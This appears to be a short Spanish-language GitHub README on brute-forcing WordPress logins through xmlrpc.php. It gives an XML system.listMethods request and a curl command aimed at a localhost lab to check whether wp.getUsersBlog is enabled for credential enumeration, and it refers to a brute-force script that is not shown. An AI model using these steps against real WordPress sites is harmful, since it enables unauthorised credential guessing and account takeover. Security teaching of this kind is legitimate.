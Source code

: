# Brute-Forze-on-Wordpress

*Poniendo en la url `xmlrpc.php`*

![image](https://github.com/ManuGalan/Brute-Forze-on-Wordpress/assets/96147300/130965d5-092f-4911-9e08-a90eed654c2f)

*Una vez que sabemos esto Utilizamos este código para ver si esta activo el método 
`wp.getUsersBlog` que nos va a permitir enumerar credenciales válidas*

Para ello crearemos un archivo con ese código dentro:

```
<?xml version="1.0" encoding="utf-8"?>
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

`curl -s -X POST "http://localhost:31337/xmlrpc.php" -d@file.xml

Si en el output de este comando encontramos `wp.getUsersBlog` 

Podremos ejecutar el script con exito (Cambiando los apartados que indica)
